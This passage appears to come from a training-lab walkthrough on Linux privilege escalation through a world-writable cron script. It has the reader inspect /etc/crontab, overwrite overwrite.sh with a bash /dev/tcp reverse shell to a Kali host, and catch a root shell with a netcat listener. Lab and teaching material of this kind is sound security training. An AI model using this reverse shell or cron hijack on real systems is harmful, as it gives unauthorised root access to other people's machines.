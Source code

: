 Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

`cat /etc/crontab`

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?

`nc -nvlp 4444`